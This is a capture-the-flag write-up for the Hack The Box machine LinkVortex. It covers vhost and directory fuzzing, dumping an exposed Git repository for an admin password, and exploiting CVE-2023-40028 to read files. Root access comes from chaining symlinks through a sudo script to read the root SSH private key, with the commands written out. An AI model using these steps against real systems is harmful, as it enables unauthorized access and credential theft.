This box is rated easy difficulty on HTB. It involves us discovering a developer virtual host that contains an exposed Git directory. After downloading all the files to our local machine, finding differences in certain commits grants us the Admin's password for the Ghost CMS site. The site is vulnerable to file uploads that are symlinks, which we exploit to read configuration files and grab a user's SSH credentials. Finally, we abuse Sudo permissions with  nested symlinks in order to read arbitrary files with elevated privileges.
## Host Scanning

I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.129.231.194 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-14 22:22 CDT
Nmap scan report for 10.129.231.194
Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

We won't be able to do much with that version of OpenSSH without credentials, so I fire up Ffuf to search for subdirectories and Vhosts in the background. The server redirects us to `linkvortex.htb` which I'll add to my `/etc/hosts` file.

## Website Enumeration
Checking out the landing page shows a place to get information about computer hardware. The page is dynamic and hosts a bunch of blog posts about the many pieces of a working computer.



The footer contains a sign up panel that doesn't actually work, but also discloses that the site is powered by Ghost. Ghost is a Content Management System that allows users to publish SEO-optimized articles, however more notably, it uses Node.js as its backend and React for the frontend. This is a great bit of info to have as figuring out the technology stack can be a huge help in getting reverse shells or finding vulnerabilities.



I can't find any useful functionality on this page or directories from my scans, however Ffuf picks up a virtual host of `dev.linkvortex.htb` which I add to my hosts file as well.

```
$ ffuf -u http://linkvortex.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.linkvortex.htb" --fs 230

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://linkvortex.htb
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.linkvortex.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 230
________________________________________________

dev                     [Status: 200, Size: 2538, Words: 670, Lines: 116, Duration: 89ms]

:: Progress: [19966/19966] :: Job [1/1] :: 722 req/sec :: Duration: [0:00:28] :: Errors: 0 ::
```

This page just displays a message saying that the site is still under development. As with anything not completely finished, we may have unauthorized access to important things, so I rerun directory scans to search for interesting points.



```
$ ffuf -u http://dev.linkvortex.htb/FUZZ -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt --fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://dev.linkvortex.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/SecLists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

.git                    [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 55ms]

:: Progress: [43007/43007] :: Job [1/1] :: 749 req/sec :: Duration: [0:01:05] :: Errors: 0 ::
```

## Exposed Git Directory
After filtering out all the 403 codes, we can see that the .git directory is exposed. This will allow us to go through all previous commits which may contain hardcoded credentials in an early development phase or useful information like the versions of technology in place.

I use a tool called [Gitdumper](https://github.com/arthaud/git-dumper) to transfer all files to my local machine.

```
--Cloning tool repo and installing all requirements in virtual env--
$ git clone https://github.com/arthaud/git-dumper
$ cd git-dumper
$ python3 -m venv venv
$ source venv/bin/activate
$ pip3 install -r requirements.txt

--Retreiving the .git directory--
$ python3 git_dumper.py http://dev.linkvortex.htb/ git-src
$ cd git-src
```

### Commit Diffs
We can use the git diff command to view the changes between each commit, however there doesn't seem to be anything useful in them. Checking the status shows that there are two new changes that have yet to be committed. First is an `authentication.test.js` file that has been modified, and the second being a new Dockerfile for the Ghost CMS site. 



Displaying both of these on their own showed nothing interesting, however when showing what was changed in the `ghost/core/test/regression/api/admin/authentication.test.js` file, a new password emerges. I'll assume that this is for the main website and not some other application for now.



The default admin panel for Ghost CMS sites is at `/ghost` and going there prompts us to login. We couldn't find an email for the earlier password, but just trying it along with `admin@linkvortex.htb` succeeds and we're redirected to the dashboard.



A quick look around shows just one potentially useful feature, which is the code injection tab under settings. This would allow us to add HTML to the site's header and footer, but after some time messing around with it, I couldn't figure out anything useful for it.

## CVE-2023–40028
Interestingly, I can't find the version in use even though we're logged in as the admin. Heading back to the Git files, I eventually find that it's using Ghost v5.58.0 inside of the Dockerfile.



Taking to Google and ExploitDB to find any common vulnerabilities in this implementation leads me to finding [CVE-2023–40028](https://nvd.nist.gov/vuln/detail/CVE-2023-40028), which explains that authenticated users are able to upload files that are symlinks. This can be exploited into reading any file on the host operating system.

I use this Arbitrary File Read [Python script](https://github.com/godylockz/CVE-2023-40028/blob/main/ghost_fileread.py) from a Github repo in order to get a shell-like interface to read files on the system.

```
$ python3 ghost_fileread.py -t http://linkvortex.htb -u admin@linkvortex.htb -p [REDACTED]
```



The contents of `/etc/passwd` don't actually show any users other than root, so we can't snoop through anyone's home directory. Earlier, we saw that the Dockerfile copied the production config file to a location on the filesystem that we should be able to read.

```
diff --git a/Dockerfile.ghost b/Dockerfile.ghost
new file mode 100644
index 0000000..50864e0
--- /dev/null
+++ b/Dockerfile.ghost
@@ -0,0 +1,16 @@
+FROM ghost:5.58.0
+
+# Copy the config
+COPY config.production.json /var/lib/ghost/config.production.json
```

Displaying the contents of that production config file gives us credentials for a user named Bob.



Attempting to use these over SSH actually works and we get a proper shell on the system. I guess the script couldn't print that many lines as Bob's entry is indeed inside of `/etc/passwd` upon double checking. At this point we can grab the user flag under his home directory and start internal enumeration to escalate privileges towards root.

## Privilege Escalation
Whilst checking the usual routes for privesc, I notice that Bob has permission to run a Bash script as root, provided we give it a `.png` file as a parameter.



### Script Anatomy
The following is what the script executes:

```
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```

This script is a bunch of nested if statements that eventually prints the content of a symlink after quarantining it. 

First, it will do nothing if the file provided is not a valid symlink. If it is, the script will then check if it contains the strings etc or root, if true it will warn us and remove the link. Upon passing those checks, it moves the link file to `/var/quarantined` and if the `CHECK_CONTENT` variable is true, prints the contents of such link.

### Double Symlink Exploit
To exploit this, we just need to provide a file that passes these checks to read arbitrary files with elevated permissions. I found that by giving it a double symlink, we could still bypass everything in place to have it read files in /root.

```
     1.png       ->       2.png        -> /root/.shh/id_rsa
(first symlink)      (second symlink)      (File to read)
```

I choose to read the root user's SSH private key so we're able to grab a shell as them. First we'll create the symlinks between all files.

```
--First symlink from privkey to second file--
$ ln -s /root/.ssh/id_rsa /home/bob/2
$ ls -la /home/bob/2
lrwxrwxrwx 1 bob bob 17 Mar 15 05:12 /home/bob/2 -> /root/.ssh/id_rsa

--Second symlink from second file to first file--
$ ln -s /home/bob/2 /home/bob/1.png
$ ls -la /home/bob/1.png
lrwxrwxrwx 1 bob bob 11 Mar 15 05:13 /home/bob/1.png -> /home/bob/2
```

Before executing it, It's important to note that we need to force the `CHECK_CONTENT` variable to be true in order for the script to print the contents. Luckily for us, Sudo is configured with `env_keep+=CHECK_CONTENT`, meaning that we can just export it to any value and run the command to keep it.

```
$ export CHECK_CONTENT=true
$ sudo bash /opt/ghost/clean_symlink.sh /home/bob/1.png
```



That works to retrieve Root user's `id_rsa` private key which can be used to authenticate over SSH and grab a shell as them. Make sure to give the key file correct permissions before attempting it.



Finally, grabbing the root flag under their home directory completes this challenge. Overall this box was pretty cool, it definitely required some knowledge of Git and functions of symlinks, but I enjoyed it plenty. I hope this was helpful to anyone following along or stuck and happy hacking!
